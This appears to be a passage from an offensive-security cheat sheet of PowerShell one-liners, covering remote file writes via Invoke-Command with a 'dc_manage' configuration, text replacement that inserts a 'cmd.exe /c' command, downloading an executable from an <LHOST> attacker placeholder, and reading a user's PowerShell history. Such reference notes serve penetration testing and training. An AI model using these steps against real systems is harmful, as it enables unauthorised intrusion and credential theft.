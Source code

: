 #### Write to a File

```cmd
PS C:\> Invoke-Command -ComputerName <COMPUTERNAME> -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'C:\PATH\TO\FILE\<FILE>' -Value '<CONTENT>'}
```

#### Move a File

```cmd
PS C:\> move-item -path C:\PATH\TO\FILE<FILE> -destination C:\PATH\TO\DESTINATION
```

#### Create a .zip-File

```cmd
PS C:\> Compress-Archive -LiteralPath C:\PATH\TO\FOLDER\<FOLDER> -DestinationPath C:\PATH\TO\FILE<FILE>.zip
```

#### Replace Text in File

```cmd
PS C:\> Invoke-Command -computername <COMPUTERNAME> -ConfigurationName dc_manage -ScriptBlock{((cat "C:\PATH\TO\FILE\<FILE>" -Raw) -replace '<TO_REPLACE>','cmd.exe /c <NEW_TEXT>') | set-content -path C:\PATH\TO\FILE\<FILE>} -credential $cred
```

#### File Transfer

```cmd
PS C:\> &{ iwr -uri http://<LHOST>/<FILE>.exe -o 'C:\PATH\TO\DIRECTORY\<FILE>.exe'}
```

#### Read PowerShell History

```cmd
PS C:\> type C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

#### Read .lnk-Files

```cmd
PS C:\> $WScript = New-Object -ComObject WScript.Shell
PS C:\> $shortcut = Get-ChildItem *.lnk
PS C:\> $WScript.CreateShortcut($shortcut)
```

## printf

```console
$ printf '<LINE1>\n<LINE2>'
```

## proc
